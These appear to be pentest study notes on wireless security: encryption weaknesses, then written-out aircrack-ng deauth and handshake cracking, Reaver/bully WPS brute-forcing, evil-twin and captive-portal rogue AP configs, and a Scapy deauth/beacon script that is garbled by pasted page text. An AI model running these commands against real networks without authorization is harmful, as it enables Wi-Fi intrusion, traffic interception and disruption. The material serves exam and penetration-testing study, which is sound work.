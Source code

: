 ## Wireless Security  
**Encryption Types**
- **WEP** (Wired Equivalent Privacy): RC4 cipher with 40‑ or 128‑bit key; **weak 24‑bit IV** → trivial to crack
- **WPA** (Wi‑Fi Protected Access): TKIP + RC4 + MIC; **fixes WEP IV** but still TKIP vulnerabilities → upgrade to WPA2
- **WPA2**: AES‑CCMP; supports **Personal** (PSK) & **Enterprise** (RADIUS) modes; strong but PK dictionary attacks possible
- **WPA3**: SAE (Dragonfly) key exchange, **forward secrecy**, 192‑bit enterprise mode; currently **no known practical attacks**

> Look into Diffie Hellman Key exchange protocol to understand how the WPA3's SAE protocol is so secure

**Common Vulnerabilities & Mitigations**
- **WEP**: crack IVs via passive capture; **mitigation**: disable WEP, use WPA2/3
- **WPA**: vulnerable TKIP; **mitigation**: disable TKIP, use WPA2/3
- **WPA2**: PSK guessable; **mitigation**: strong passphrases or move to WPA3
- **WPS**: 8‑digit PIN brute‑force; **mitigation**: disable WPS
- **MAC Filtering**: trivial to bypass by MAC spoofing; **mitigation**: use encryption + 802.1X

---

## Wireless Signal Exploitation  
**Signal Jamming**
- Overwhelm channel with noise → disrupt comms; often **illegal**; avoid in production

**Wardriving**
- Map Wi‑Fi footprints by driving with scanning tools
- **Tools**:  
  - **WiGLE.net**: global Wi‑Fi map & analytics  
  - **inSSIDer**: real‑time scan (SSID, BSSID, channel, security)
- **Ethical Use**: only collect metadata, no unauthorized access

---

## Aircrack‑ng Suite  
**Purpose**: capture & crack WEP/WPA PSK handshakes

### Deauthentication Attack  
1. **Monitor mode**:  
   ```bash
   airmon-ng start wlan0
```

2. **Scan**:
    ```bash
    airodump-ng wlan0mon
    ```

3. **Capture** (target BSSID AA:BB:CC:DD:EE:FF on CH 6):
    ```bash
    airodump-ng --bssid AA:BB:CC:DD:EE:FF --channel 6 --write capture wlan0mon
    ```
    
4. **Deauth** (send 10 frames):
    ```bash
    aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66 wlan0mon
    ```
    
5. **Crack PSK** (wordlist attack):
```bash
    aircrack-ng -w /path/to/wordlist.txt -b AA:BB:CC:DD:EE:FF capture-01.cap
    ```

---

## WPS PIN Attacks (Reaver)

````bash
# Start monitor mode
airmon-ng start wlan0

# Identify AP with WPS open
wash -i wlan0mon

# Brute‑force WPS PIN
reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv

# Find actual password with pin number
bully -b <mac> -p <pin> wlan0mon
````

> **Output**: displays cracked PIN & WPA PSK once found

---

## Captive Portal Attacks  
**Evil Twin + Rogue AP** using `hostapd` & `dnsmasq`

```bash
# hostapd.conf snippet
driver=nl80211
interface=wlan0mon
essid=Free_WiFi
channel=6

# dnsmasq.conf snippet
interface=wlan0mon
dhcp-range=10.0.0.50,10.0.0.150,12h
address=/#/10.0.0.1
````

- Redirect all DNS → captive portal on 10.0.0.1

---

## Evil Twin Attack

```bash
# Create rogue AP
airbase-ng -e "Hotel_WiFi" -c 11 wlan0mon
wifipumpkin3 # Metasploitable style prompt
```
Use mitmproxy or SSLstrip to intercept HTTP(S) sessions.

---

## Kismet

**Passive discovery** for Wi‑Fi, Bluetooth, Zigbee
```bash
# Start Kismet server
kismet -c wlan0mon --log-prefix=kismet-log --insecure
```

- **Detects hidden SSIDs** during client handshakes
- **Logs pcap** for later analysis with Wireshark

---

## Wi‑Fi Protocol Fuzzing
- Technique used to identify vulns in Wi-Fi by sending random or unexpected data and see how they respond

**Scapy** – craft malformed 802.11 & Wireshark
```python
from scapy.all import * 
deauth_frame = RadioTap() / \ Dot11(addr1="ff:ff:ff:ff:ff:ff", addr2="00:11:22:33:44:55", addr3="00:11:22:33:44:55") / \ Dot11Deauth(reason=99) 
sendp(deauth_frame, iface="wlan0", count=10, inter=0.1) 
beacon_frame = RadioTap() / \ 309 https://www.DionTraining.com CompTIA PenTest+ (PT0-003) (Study Guide) Dot11(addr1="ff:ff:ff:ff:ff:ff", addr2="00:11:22:33:44:55", addr3="00:11:22:33:44:55") / \ Dot11Beacon(cap="ESS+privacy") / \ Dot11Elt(ID="SSID", info="Unexpected_SSID")
sendp(beacon_frame, iface="wlan0", count=10, inter=0.1)
```
- **Observe** crashes or misbehavior → potential driver/firmware bug